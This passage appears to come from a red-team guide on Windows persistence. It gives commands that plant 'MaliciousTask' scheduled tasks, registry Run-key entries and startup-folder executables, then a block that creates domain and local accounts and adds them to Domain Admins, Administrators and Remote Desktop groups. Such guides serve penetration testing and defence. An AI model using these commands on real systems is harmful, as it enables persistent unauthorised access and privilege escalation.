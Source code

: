 To create a scheduled task, you can use the `schtasks` command. Here is an example:

```plaintext
schtasks /create /sc minute /mo 30 /tn "MaliciousTask" /tr "C:\path\to\malicious\script.bat"
```

This command creates a scheduled task named "MaliciousTask" that runs every 30 minutes and executes the specified batch script.

#### Registry Run Keys

Registry run keys are locations in the Windows Registry where programs can be configured to run automatically when a user logs in. By adding a malicious entry to a run key, an attacker can achieve persistence with a user account.

The following registry keys are commonly used for this purpose:

- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`

To add a malicious entry to a run key, you can use the `reg add` command. Here is an example:

```plaintext
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "MaliciousEntry" /t REG_SZ /d "C:\path\to\malicious\executable.exe"
```

This command adds a registry entry named "MaliciousEntry" to the current user's run key, which points to the specified executable.

#### Startup Folders

Startup folders are directories where programs can be placed to run automatically when a user logs in. By placing a malicious executable in a startup folder, an attacker can achieve persistence with a user account.

The following startup folders are commonly used for this purpose:

- `%AppData%\Microsoft\Windows\Start Menu\Programs\Startup`
- `%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup`

To add a malicious executable to a startup folder, you can use the `copy` command. Here is an example:

```plaintext
copy "C:\path\to\malicious\executable.exe" "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup"
```

This command copies the malicious executable to the user's startup folder, ensuring that it runs automatically upon login.

By leveraging scheduled tasks, registry run keys, and startup folders, an attacker can establish persistence with user accounts, ensuring continued access to a compromised system.
```bash
# Add domain user and put them in Domain Admins group
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN

# Add local user and put them local Administrators group
net user username password /ADD
net localgroup Administrators username /ADD

# Add user to insteresting groups:
net localgroup "Remote Desktop Users" UserLoginName  /add
net localgroup "Debugger users" UserLoginName /add
net localgroup "Power users" UserLoginName /add
```
## नेटवर्क